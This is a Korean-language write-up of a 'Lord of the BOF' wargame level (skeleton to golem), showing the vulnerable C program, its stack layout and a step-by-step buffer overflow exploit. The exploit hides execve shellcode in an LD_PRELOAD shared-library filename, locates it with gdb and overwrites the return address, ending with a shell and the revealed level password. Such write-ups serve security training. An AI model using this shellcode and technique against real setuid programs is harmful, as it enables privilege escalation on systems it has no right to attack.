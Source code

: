 skeleton
===================

.. role:: r

.. role:: g

.. role:: b


source code
----------------

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
    }



Buffer Overflow
----------------

스택에 다음과 같이 들어가게 됩니다.

======= =========
LOW     
------- ---------
Buffer  (40byte)
SFP     (4byte)
RET     (4byte)
argc    (4byte)
argv    (4byte)
------- ---------
HIGH    
======= =========

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    [skeleton@localhost skeleton]$ ./golem `python -c 'print "a"*47'`
    stack is still your friend.
    [skeleton@localhost skeleton]$ ./golem `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



EXPLOIT
----------------

1) 쉘코드 파일명을 공유 라이브러리로 등록

2) RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행

쉘코드 파일명을 공유 라이브러리로 등록
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    [skeleton@localhost skeleton]$ gcc -fPIC -shared -o `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    [skeleton@localhost skeleton]$ export LD_PRELOAD=./`python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

===========     =============== =============== =============== ==========
0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

(중략)
0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
===========     =============== =============== =============== ==========


RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    [skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒

    bash$ whoami
    golem
    bash$ my-pass
    euid = 511
    cup of coffee

